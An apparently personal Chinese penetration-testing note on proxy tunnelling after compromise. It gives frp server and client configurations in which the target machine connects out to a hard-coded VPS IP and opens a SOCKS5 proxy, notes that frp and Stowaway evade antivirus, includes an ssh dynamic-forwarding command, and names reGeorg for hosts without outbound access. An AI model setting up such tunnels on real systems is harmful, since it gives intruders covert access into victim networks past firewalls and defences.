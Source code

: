 <a name="22VL2"></a>
## <br />
要注意，代理工具的版本问题，例如amd或者arm，直接<br />cat /proc/version看清楚版本再选择
<a name="ll5S2"></a>
## Frp代理隧道(免杀)
Vps执行<br />./frps -c frps.ini <br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611333274992-0336821c-2e63-47e7-b7ee-cb4a64a84b29.png#align=left&display=inline&height=142&originHeight=283&originWidth=1105&size=243522&status=done&style=none&width=552.5)<br />frps.ini配置
[common]> server_addr = 0.0.0.0
> server_port = 7000

> token = www.abc.eee           


目标机(靶机)<br />frpc.exe -c frpc.ini<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611333690636-44d118be-a72d-47a7-ae21-525fd72def6e.png#align=left&display=inline&height=51&originHeight=103&originWidth=699&size=46202&status=done&style=none&width=349.5)
[common]  
> server_addr = 121.4.236.95

> server_port = 7000

> tls_enable = true

> pool_count = 5

> token = www.abc.eee
> 

> [plugin_socks]  

> type = tcp

> remote_port = 4567

> plugin = socks5

> plugin_user = root

> plugin_passwd = 1234,abcd

> use_encryption = true

> use_compression = true      


proxifier的socks连4567端口<br />[https://note.youdao.com/ynoteshare1/index.html?id=be615ffa33279d3481b9b2b5ad6d6f27&type=note](https://note.youdao.com/ynoteshare1/index.html?id=be615ffa33279d3481b9b2b5ad6d6f27&type=note)

frp还有控制台的[https://www.codercto.com/a/82144.html](https://www.codercto.com/a/82144.html)
<a name="AKh7p"></a>
##  Stowaway(免杀
go写的代理隧道<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1616293719439-cb377327-5ab0-4df3-a7f3-24ae66160a7e.png#align=left&display=inline&height=500&originHeight=667&originWidth=1117&size=53585&status=done&style=none&width=838)<br />[https://github.com/ph4ntonn/Stowaway](https://github.com/ph4ntonn/Stowaway)
<a name="sGfnQ"></a>
## ssh本地动态转发(需要密码
ssh -qTfnN -D 0.0.0.0:80 root@localhost -p 22<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611333707177-8e8e1f37-6fb7-4f48-845c-f9fd96dd91ae.png#align=left&display=inline&height=292&originHeight=389&originWidth=866&size=226126&status=done&style=none&width=650)<br />10.32.240.212 80 sock5  SSH代理，可通4614端口，当时3389转到4614端口
<a name="b7gHx"></a>
## reGeorgSocksProxy （好用，本地操作就行）不出网